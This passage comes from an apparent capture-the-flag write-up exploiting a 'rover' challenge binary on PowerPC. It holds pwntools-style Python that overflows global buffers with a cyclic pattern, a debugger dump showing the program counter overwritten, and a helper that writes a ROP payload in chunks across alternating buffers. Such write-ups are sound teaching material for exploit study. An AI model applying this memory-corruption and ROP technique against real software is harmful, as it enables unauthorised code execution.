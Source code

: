 ```python
choose(0)
payload = cyc(0x100)
set_planet(payload)
```

and it works allowing us to write a payload into the rover global variable buffers:

```
$r0  : 0x6161616861616167 ("gaaahaaa"?)
$r1  : 0x000000001011011e  →  "caaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoa[...]"
...
$r12 : 0x0000000010000e64  →  <cmd_set_planet+204> addi r1, r31, 160
...
$r31 : 0x6161616261616161 ("aaaabaaa"?)
$pc  : 0x6161616861616164 ("daaahaaa"?)
$cr  : [negative[0] positive[0] equal[0] overflow[0] less[7] greater[7] EQUAL[7] overflow[7]]
$lr  : 0x6161616861616167 ("gaaahaaa"?)
$ctr : 0x0000000010000e64  →  <cmd_set_planet+204> addi r1, r31, 160
─── stack ────
0x000000001011011e│+0x0000: "caaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoa[...]"    ← $r1
0x0000000010110126│+0x0008: "eaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqa[...]"
0x000000001011012e│+0x0010: "gaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasa[...]"
```



#### Payload

Before starting to write our payload we will create a helper functions that correctly writes our payload across multiple buffers.

```python
payload = flat(
  PAYLOAD_START, # r31
  cyc(0x10),
  0x6fe1be2, # execute this
)

rop_size = (len(payload)//0x100) + 1

payload += cyclic((0x100*rop_size)-len(payload))

assert len(payload) <= 0x1e00, 'payload to long'

lhex(rop_size, 'rop_size: ')

p = lprog('prepare payload')
for i in range(0, rop_size):
  p.status(f'{i}/{rop_size}')
  if i & 1 == 0:
    choose(i//2)
    set_planet(payload[i*0x100:(i + 1)*0x100])
  else:
    set_name(payload[i*0x100:(i + 1)*0x100])

p.success('start payload')

```
